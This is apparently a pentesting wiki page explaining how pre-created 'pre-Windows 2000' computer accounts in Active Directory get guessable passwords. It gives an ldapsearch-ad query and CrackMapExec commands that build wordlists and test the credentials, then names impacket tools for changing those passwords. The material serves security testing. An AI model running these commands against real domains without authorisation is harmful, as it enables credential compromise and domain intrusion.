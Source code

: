 # Pre-Windows 2000 computers

## Theory

When a new computer account is configured as "pre-Windows 2000 computer", its password is set based on its name (i.e. lowercase computer name without the trailing `$`). When it isn't, the password is randomly generated.

Once an authentication occurs for a pre-Windows 2000 computer, according to [TrustedSec's blogpost](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/), its password will usually need to be changed.

## Practice

Finding computer accounts that have been "pre-created" (i.e. manually created in [ADUC](https://blog.netwrix.com/2017/01/30/active-directory-users-and-computers-aduc/) instead of automatically added when joining a machine to the domain), but have never been used can be done by filtering the `UserAccountControl` attribute of all computer accounts and look for the value 4128 (32|4096) (deductible via the [UserAccountControl](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) flags):

* 32 - `PASSWD_NOTREQD`
* 4096 - `WORKSTATION_TRUST_ACCOUNT`

The `logonCount` attribute can be filtered as well.

The [ldapsearch-ad](https://github.com/yaap7/ldapsearch-ad) tool can be used to find such accounts. Once "pre-created" computer accounts that have not authenticated are found, they should be usable with their lowercase name set as their password. This can be tested with [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) (Python) for instance.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># 1. find pre-created accounts that never logged on
</strong><strong>ldapsearch-ad -l $LDAP_SERVER -d $DOMAIN -u $USERNAME -p $PASSWORD -t search -s '(&#x26;(userAccountControl=4128)(logonCount=0))' | tee results.txt
</strong>
# 2. extract the sAMAccountNames of the results
cat results.txt | grep "sAMAccountName" | awk '{print $4}' | tee computers.txt

# 3. create a wordlist of passwords matching the Pre-Windows 2000 generation, based on the account names
cat results.txt | grep "sAMAccountName" | awk '{print tolower($4)}' | tr -d '$' | tee passwords.txt

# 4. bruteforce, line per line (user1:password1, user2:password2, ...)
cme smb $DC_IP -u "computers.txt" -p "passwords.txt" --no-bruteforce</code></pre>

> You will see the error message **STATUS\_NOLOGON\_WORKSTATION\_TRUST\_ACCOUNT** when you have guessed the correct password for a computer account that has not been used yet. ([trustedsec.com](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/))

Testers can then change the Pre-Windows 2000 computer accounts' password (i.e. [rpcchangepwd.py](https://github.com/SecureAuthCorp/impacket/pull/1304), [kpasswd.py](https://github.com/SecureAuthCorp/impacket/pull/1189), etc.) in order to use it.

## Reference

{% embed url="https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/" %}

{% embed url="https://web.archive.org/web/20080205233505/http://support.microsoft.com/kb/320187" %}
